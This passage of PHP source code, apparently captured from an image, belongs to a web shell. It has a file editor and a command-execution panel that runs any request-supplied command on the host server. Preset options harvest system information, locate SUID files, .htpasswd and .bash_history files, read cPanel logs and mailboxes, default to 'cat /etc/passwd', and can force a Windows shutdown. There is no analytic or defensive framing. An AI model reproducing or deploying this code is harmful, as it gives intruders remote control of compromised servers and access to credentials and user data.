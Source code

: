 else {echo "&lt;center&gt;&lt;table border=0 style=\"border-collapse: collapse\" bordercolor=\"#282828\" width=\"40%\"&gt;&lt;tr&gt;&lt;td width=\"10%\" bgcolor=\"#808080\"&gt;&lt;form method=\"POST\"&gt;&lt;input type=text value=\"".getcwd()."\" size=75 name=file&gt;$hcwd&lt;input type=submit class=buttons name=Open value=Open&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt;&lt;/table&gt;&lt;br&gt;&lt;table border=0 style=\"border-collapse: collapse\" bordercolor=\"#282828\" width=\"40%\"&gt;&lt;tr&gt;&lt;td width=\"40%\" bgcolor=\"#666666\"&gt;&lt;form method=\"POST\"&gt;&lt;textarea rows=\"18\" name=\"edited\" cols=\"63\"&gt;&lt;/textarea&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td width=\"10%\" bgcolor=\"#808080\"&gt;&lt;input type=text value=\"".getcwd()."\" size=80 name=file&gt;&lt;/td&gt;&lt;/tr&gt;&lt;td width=\"40%\" bgcolor=\"#666666\" align=\"right\"&gt;";
}
echo "$hcwd&lt;input type=submit class=buttons name=Save value=Save&gt;&lt;/td&gt;&lt;/form&gt;&lt;/tr&gt;&lt;/table&gt;&lt;/center&gt;";
}
function webshelL(){
global $windows,$hcwd;
if($windows){
$alias="&lt;option value=\"netstat -an\"&gt;Display open ports&lt;/option&gt;&lt;option value=\"tasklist\"&gt;List of processes&lt;/option&gt;&lt;option value=\"systeminfo\"&gt;System information&lt;/option&gt;&lt;option value=\"ipconfig /all\"&gt;IP configuration&lt;/option&gt;&lt;option value=\"getmac\"&gt;Get MAC address&lt;/option&gt;&lt;option value=\"net start\"&gt;Services list&lt;/option&gt;&lt;option value=\"net view\"&gt;Machines in domain&lt;/option&gt;&lt;option value=\"net user\"&gt;Users list&lt;/option&gt;&lt;option value=\"gpresult\"&gt;Group policy&lt;/option&gt;&lt;option value=\"shutdown -s -f -t 1\"&gt;Turn off the server&lt;/option&gt;";
}
else{
$alias="&lt;option value=\"netstat -an | grep -i listen\"&gt;Display open ports&lt;/option&gt;&lt;option value=\"last -a -n 250 -i\"&gt;Show last 250 logged in users&lt;/option&gt;&lt;option value=\"which wget curl lynx w3m\"&gt;Downloaders&lt;/option&gt;&lt;option value=\"find / -perm -2 -type d -print\"&gt;Find world-writable directories&lt;/option&gt;&lt;option value=\"find . -perm -2 -type d -print\"&gt;Find world-writable directories(in current directory)&lt;/option&gt;&lt;option value=\"find / -perm -2 -type f -print\"&gt;Find world-writable files&lt;/option&gt;&lt;option value=\"find . -perm -2 -type f -print\"&gt;Find world-writable files(in current directory)&lt;/option&gt;&lt;option value=\"find / -type f -perm 04000 -ls\"&gt;Find files with SUID bit set&lt;/option&gt;&lt;option value=\"find / -type f -perm 02000 -ls\"&gt;Find files with SGID bit set&lt;/option&gt;&lt;option value=\"find / -name .htpasswd -type f\"&gt;Find .htpasswd files&lt;/option&gt;&lt;option value=\"find / -type f -name .bash_history\"&gt;Find .bash_history files&lt;/option&gt;&lt;option value=\"cat /etc/syslog.conf\"&gt;View syslog.conf&lt;/option&gt;&lt;option value=\"cat cat /etc/hosts\"&gt;View hosts&lt;/option&gt;&lt;option value=\"ps auxw\"&gt;List of processes&lt;/option&gt;";
if(is_dir('/etc/valiases'))$alias.="&lt;option value=\"ls -l /etc/valiases\"&gt;List of Cpanel`s domains(valiases)&lt;/option&gt;";if(is_dir('/etc/vdomainaliases'))$alias.="&lt;option value=\"ls -l /etc/vdomainaliases\"&gt;List Cpanel`s domains(vdomainaliases)&lt;/option&gt;";if(file_exists('/var/cpanel/accounting.log'))$alias.="&lt;option value=\"cat /var/cpanel/accounting.log\"&gt;Display Cpanel`s log&lt;/option&gt;";
if(is_dir('/var/spool/mail/'))$alias.="&lt;option value=\"ls /var/spool/mail/\"&gt;Mailboxes list&lt;/option&gt;";
}
echo "&lt;center&gt;&lt;table border=0 cellpadding=0 cellspacing=0 style=\"border-collapse: collapse\" bordercolor=\"#282828\" bgcolor=\"#333333\" width=\"65%\"&gt;&lt;form method=\"POST\"&gt;&lt;tr&gt;&lt;td width=\"20%\"&gt;&lt;b&gt;Location:&lt;/b&gt;&lt;input type=text name=workingdiR size=82 value=\"".getcwd()."\"&gt;&lt;input class=buttons type=submit value=Change&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt;&lt;/table&gt;&lt;br&gt;&lt;table border=0 cellpadding=0 cellspacing=0 style=\"border-collapse: collapse\" bordercolor=\"#282828\" bgcolor=\"#333333\" width=\"65%\"&gt;&lt;tr&gt;&lt;td&gt;&lt;b&gt;Web Shell:&lt;/b&gt;&lt;/td&gt;&lt;/tr&gt;&lt;td bgcolor=\"#666666\"&gt;&lt;textarea rows=\"22\" cols=\"78\"&gt;";
if (!empty($_REQUEST['cmd'])) echo shelL($_REQUEST['cmd']);
echo"&lt;/textarea&gt;&lt;/td&gt;&lt;/tr&gt;&lt;form method=post&gt;&lt;tr&gt;&lt;td bgcolor=\"#808080\"&gt;&lt;input type=text size=91 name=cmd value=\"";if (!empty($_REQUEST['cmd'])) echo htmlspecialchars(($_REQUEST['cmd']));elseif(!$windows) echo "cat /etc/passwd";echo "\"&gt;$hcwd&lt;input class=buttons type=submit value=Execute&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt;&lt;/td&gt;&lt;/tr&gt;&lt;form method=post&gt;&lt;tr&gt;&lt;td bgcolor=\"#808080\"&gt;&lt;select name=\"cmd\" width=70&gt;$alias&lt;/select&gt;$hcwd&lt;input class=buttons type=submit value=Execute&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt;&lt;/table&gt;&lt;/table&gt;&lt;center&gt;";
}
function maileR(){